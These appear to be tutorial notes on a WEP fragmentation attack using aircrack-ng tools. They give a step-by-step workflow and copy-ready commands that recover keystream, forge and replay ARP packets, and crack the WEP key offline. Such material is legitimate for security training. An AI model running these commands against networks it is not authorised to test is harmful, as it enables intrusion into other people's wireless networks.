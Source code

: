 # Chain #20: Fragmentation Attack

Short purpose: capture or generate enough PRGA (keystream) bytes from a WEP-protected AP using 802.11 fragmentation, so you can forge packets (most commonly an ARP request) and then replay them to rapidly produce IVs for offline WEP cracking.

---

## Key terms

- **WEP** — Wired Equivalent Privacy (insecure legacy Wi‑Fi encryption).
- **IV (Initialization Vector)** — per-packet public value used with the WEP key; collecting many IVs enables attacks.
- **PRGA (Pseudo Random Generation Algorithm)** — RC4 keystream bytes generated per IV; XORed with plaintext to produce ciphertext. Knowing PRGA lets you encrypt/decrypt.
- **Fragmentation attack** — exploit where attacker crafts fragmented frames and uses known plaintext/LLC header to recover PRGA bytes across fragments.
- **ARP request/relay** — a small predictable broadcast packet often used to generate many IVs when replayed.
- **Monitor mode** — NIC mode that captures and injects raw 802.11 frames (required).

---

## Step-by-step workflow (concise)

1. **Enable monitor mode**    
    - `sudo airmon-ng start wlan0` → usually creates `wlan0mon`.
    - Verify with `iwconfig` (should show `Mode:Monitor`).

2. **Scan and capture**
    - Start airodump to record traffic and identify target AP/clients and channel:
	    ```bash
        sudo airodump-ng wlan0mon -c <channel> -w WEP
        ```
    - Note: output files `WEP-01.cap`, `WEP-01.csv` etc.

3. **Launch fragmentation attack to obtain PRGA (.xor)**
    - Run aireplay-ng fragmentation mode:
        ```bash
        sudo aireplay-ng -5 -b <AP_BSSID> -h <source_MAC> wlan0mon
        ```
    - Follow prompts to choose a captured data frame if requested. aireplay-ng will attempt to build fragments and show messages like "Trying to get 1500 bytes of a keystream" and will save a `.xor` file (e.g. `fragment-<timestamp>.xor`).

4. **Inspect capture to find IP/MAC info (optional but helpful)**
    - Use tcpdump or Wireshark to read the chosen packet and extract source/dest IP and MACs:
        ```bash
        tcpdump -s 0 -n -e -r replay_src-<timestamp>.cap
        ```

5. **Forge ARP request using PRGA**
    - Use packetforge-ng with the `.xor` file to create an encrypted ARP request (or other packet types):
        ```bash
        packetforge-ng -0 -a <AP_BSSID> -h <STA_MAC> -k <AP_IP> -l <STA_IP> -y fragment-xxxx.xor -w forgedarp.cap
        ```
    - Notes: `-0` = ARP request. `-y` points to PRGA/.xor file.

6. **Inject forged packet (Interactive Packet Replay)**
    - Replay forged ARP to the network to cause the AP to broadcast replies and generate many IVs:
        ```bash
        sudo aireplay-ng -2 -r forgedarp.cap -h <STA_MAC> wlan0mon
        ```
    - Monitor `airodump-ng` to watch the `#Data, #/s` and the Frames counter for the station rise — this indicates IVs are being generated.
        
7. **Optionally run ARP replay (fast IV generation)**    
    - In a separate terminal, run an ARP replay to amplify IV collection:
        ```bash
        sudo aireplay-ng -3 -b <AP_BSSID> -h <STA_MAC> wlan0mon
        ```
    - `-3` stores captured ARP requests (replay attack) and can replay them to force the AP to create many IVs quickly.
        
8. **Crack WEP offline**
    - Once enough IVs are collected in the capture file (aircrack-ng will indicate progress), run:
        ```bash
        aircrack-ng -b <AP_BSSID> WEP-01.cap
        ```
    - When sufficient IVs exist, aircrack-ng (PTW/Korek methods) will display `KEY FOUND! [ xx:xx:xx:xx:xx:xx ]`.        

---

## Command & reference snippets (practical quick copy)

- Enable monitor mode: `sudo airmon-ng start wlan0`    
- Confirm: `iwconfig`
- Airodump capture: `sudo airodump-ng wlan0mon -c 1 -w WEP`
- Fragmentation attack: `sudo aireplay-ng -5 -b A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE wlan0mon`
- View chosen packet: `tcpdump -s 0 -n -e -r replay_src-0805-191842.cap`
- Build ARP packet: `packetforge-ng -0 -a <AP> -h <STA> -k <AP_IP> -l <STA_IP> -y fragment.xor -w forgedarp.cap`
- Interactive packet replay: `sudo aireplay-ng -2 -r forgedarp.cap -h <STA_MAC> wlan0mon`
- ARP replay (fast IVs): `sudo aireplay-ng -3 -b <AP_BSSID> -h <STA_MAC> wlan0mon`
- Crack: `aircrack-ng -b <AP_BSSID> WEP-01.cap`

---

## Practical tips & gotchas

- The LLC/SNAP header gives you the first 8 bytes of predictable plaintext (useful for deriving PRGA). ARP packets are small and predictable which is why forged ARPs are used.    
- If the captured packet lacks IP addresses, use `-k 255.255.255.255 -l 255.255.255.255` with packetforge-ng to create broadcast ARP-like packets.
- Ensure your wireless card supports injection and monitor mode (test with `aireplay-ng --test wlan0mon`).
- Some modern APs or WPA3 networks may not be vulnerable — this method targets WEP only.
- Be careful with legal/ethical boundaries: only test on networks you own or have explicit authorization to test.

---

## Summary

Fragmentation attacks exploit WEP’s per-fragment RC4 keystream application and predictable LLC/SNAP headers to recover PRGA bytes by causing the AP to reassemble attacker-supplied fragments; the recovered PRGA lets you forge an ARP request that, when replayed, generates a large number of IVs quickly — making WEP cracking feasible offline with aircrack-ng.